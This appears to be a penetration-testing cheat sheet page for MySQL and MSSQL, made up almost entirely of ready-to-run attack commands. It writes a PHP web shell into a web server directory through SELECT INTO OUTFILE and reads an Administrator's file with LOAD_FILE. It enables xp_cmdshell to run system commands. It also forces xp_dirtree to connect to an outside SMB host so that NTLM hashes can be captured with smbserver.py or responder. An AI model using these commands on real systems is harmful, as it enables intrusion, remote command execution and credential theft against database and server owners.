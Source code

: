 ```yaml
---
title: "Mssql-Mysql"
description: ""
summary: ""
date: 2023-09-07T16:06:50+02:00
lastmod: 2023-09-07T16:06:50+02:00
draft: false
weight: 800
toc: true
sidebar:
  collapsed: true
seo:
  title: "" # custom title (optional)
  description: "" # custom description (recommended)
  canonical: "" # custom canonical URL (optional)
  robots: "" # custom robot tags (optional)
  noindex: false # false (default) or true
---
```


## Mysql

- Upload file when root : 
```sql
select '<?php echo "command: " . system($_REQUEST["cmd"]); ?>' into outfile "C:\\xampp\\htdocs\\dev\\shell.php";
```

- Read file : 
```sh
SELECT LOAD_FILE('C:\\Users\\Administrator\\Desktop\\root.txt');
```

- Check permissions : 
```sql
SHOW GRANTS FOR CURRENT_USER;
select system_user();
```

## MSSQL

- Enable xp_cmdshell with sp_configure
```sh
EXEC sp_configure 'show advanced options', '1'
RECONFIGURE
# this enables xp_cmdshell
EXEC sp_configure 'xp_cmdshell', '1' 
RECONFIGURE
```
- Disable xp_cmdshell with sp_configure

```sh
EXEC sp_configure 'show advanced options', '1'
RECONFIGURE
#this disables xp_cmdshell
EXEC sp_configure 'xp_cmdshell', '0' 
RECONFIGURE

EXEC xp_cmdshell 'whoami';
```

- Mssql command : 
```sh
enum_db

use db;

SELECT TABLE_NAME FROM Demo.INFORMATION_SCHEMA.TABLES WHERE TABLE_TYPE = 'BASE TABLE';

SELECT * from db;
```

- Catch hash with xp_dirtree : 
```sh
EXEC master.sys.xp_dirtree '\\10.8.3.12\myshare',1,1
smbserver.py -smb2support share .
#or 
responder --interface "tun0" -wd
```